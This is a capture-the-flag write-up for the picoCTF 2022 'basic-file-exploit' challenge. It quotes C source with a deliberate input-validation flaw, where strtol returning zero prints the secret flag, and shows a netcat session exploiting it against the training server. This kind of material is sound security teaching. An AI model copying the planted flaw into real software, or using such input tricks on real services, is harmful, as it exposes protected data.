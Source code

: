 # basic-file-exploit

- [Challenge information](#challenge-information)
- [Solution](#solution)

## Challenge information
```
Points: 100
Tags: picoCTF 2022, Binary Exploitation
Author: WILL HONG

Description:
The program provided allows you to write to a file and read what you wrote from it. 
Try playing around with it and see if you can break it!

Connect to the program with netcat:
$ nc saturn.picoctf.net 50959

The program's source code with the flag redacted can be downloaded here.
 
Hints:
1. Try passing in things the program doesn't expect. Like a string instead of a number.
```

## Solution

### Study the source code

The `main` function of the program look like this
```c
int main(int argc, char** argv) {
  char input[3] = {'\0'};
  long command;
  int r;

  puts("Hi, welcome to my echo chamber!");
  puts("Type '1' to enter a phrase into our database");
  puts("Type '2' to echo a phrase in our database");
  puts("Type '3' to exit the program");

  while (true) {   
    r = tgetinput(input, 3);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
    
    if ((command = strtol(input, NULL, 10)) == 0) {
      puts("Please put in a valid number");
    } else if (command == 1) {
      data_write();
      puts("Write successful, would you like to do anything else?");
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
    } else if (command == 3) {
      return 0;
    } else {
      puts("Please type either 1, 2 or 3");
      puts("Maybe breaking boundaries elsewhere will be helpful");
    }
  }

  return 0;
}
```

Nothing much intresting here and the program even tells us that `breaking boundaries elsewhere will be helpful`.

Lets see were the flag is printed, that is in the `data_read` function
```c
static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}
```

If we input something which input to the `strtol` function returns 0, we get the flag.
The [strtol](https://www.tutorialspoint.com/c_standard_library/c_function_strtol.htm) function converts 
strings to long integers. 

A return value of zero signals a failure in the convertion but if we input the string "0" 
we also get a zero value so lets use that.

### Plan of attack

We can't "reach" the `data_read` function directly since the program checks if there is data available
as we see in this code snippet of `main`
```c
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
```

So we start by entering some bogus data.

Then we try to read and when asked for the entry we select entry number `0`.

### Connect to the server and get the flag

Finally, lets exploit and get the flag
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Basic_File_Exploit]
└─$ nc saturn.picoctf.net 50959
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
picoCTF
picoCTF
Please enter the length of your data:
7
7
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{<REDACTED>}
```
